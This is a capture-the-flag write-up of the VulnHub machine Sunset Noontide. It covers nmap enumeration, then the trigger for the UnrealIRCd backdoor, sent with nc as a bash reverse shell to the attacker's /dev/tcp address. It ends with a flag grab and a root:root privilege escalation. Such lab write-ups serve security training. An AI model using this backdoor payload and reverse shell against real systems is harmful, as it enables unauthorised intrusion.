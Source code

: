 ```yaml
---
layout: post
author: H4
---
```


[Details](https://www.vulnhub.com/entry/sunset-noontide,531/)

# enumeration
Performing a simple `nmap` scan to identify the attack surface.

## nmap
```bash
$ nmap -Pn 192.168.156.120                                                                                                                                                                                                            1 ⨯
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:38 EST
Nmap scan report for 192.168.156.120
Host is up (0.027s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6667/tcp open  irc

Nmap done: 1 IP address (1 host up) scanned in 1.71 seconds
```

```bash
$ nmap -Pn -p6667 -sV 192.168.169.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-02 16:18 EST
Nmap scan report for 192.168.169.120
Host is up (0.11s latency).

PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
Service Info: Host: irc.foonet.com
```

Only an IRC service could be identified.

---

# exploitation
## scan for vulnerabilities
```bash
$ nmap -Pn -p6667 --script="irc*" 192.168.156.120
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 00:39 EST
Nmap scan report for 192.168.156.120
Host is up (0.025s latency).

PORT     STATE SERVICE
6667/tcp open  irc
|_irc-unrealircd-backdoor: Looks like trojaned version of unrealircd. See http://seclists.org/fulldisclosure/2010/Jun/277

Nmap done: 1 IP address (1 host up) scanned in 17.52 seconds
```

```bash
$ searchsploit unrealirc backdoor
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                                                                                                                                              | linux/remote/16922.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

> The installed IRC server seems to be backdoored!
{: .prompt-info}

Reviewing the source code of the `metasploit` module reveals that a simple payload can be used to access the backdoor.
![image](/images/sunsetnoontide1.png)

## get reverse shell
payload: ```AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'```

### start listener on attacking machine
```bash
$ nc -lvp 80  
listening on [any] 80 ...
```

### trigger backdoor
```bash
$ nc 192.168.156.120 6667                             
:irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
:irc.foonet.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
AB;bash -c 'bash -i >& /dev/tcp/192.168.49.156/80 0>&1'
```

### catch connect from target
```bash
$ nc -lvp 80  
listening on [any] 80 ...
192.168.156.120: inverse host lookup failed: Unknown host
connect to [192.168.49.156] from (UNKNOWN) [192.168.156.120] 48232
bash: cannot set terminal process group (396): Inappropriate ioctl for device
bash: no job control in this shell
server@noontide:~/irc/Unreal3.2$ whoami
whoami
server
```

---

# post exploitation
## get first flag
```bash
server@noontide:~$ cd /home/server
server@noontide:~$ ls
ls
irc
local.txt
server@noontide:~$ cat local.txt
cat local.txt
4******************************9
```

## privilege escalation

> The account `root` uses wek credentials: `root:root`.
{: .prompt-info}

```bash
server@noontide:~/irc/Unreal3.2$ su root
root@noontide:~/irc/Unreal3.2# whoami
whoami
root
```

---

## second flag
```bash
root@noontide:/tmp# cd /root
cd /root
root@noontide:~# ls
ls
proof.txt
root@noontide:~# cat proof.txt
cat proof.txt
3******************************2
```

Pwned! <@:-)
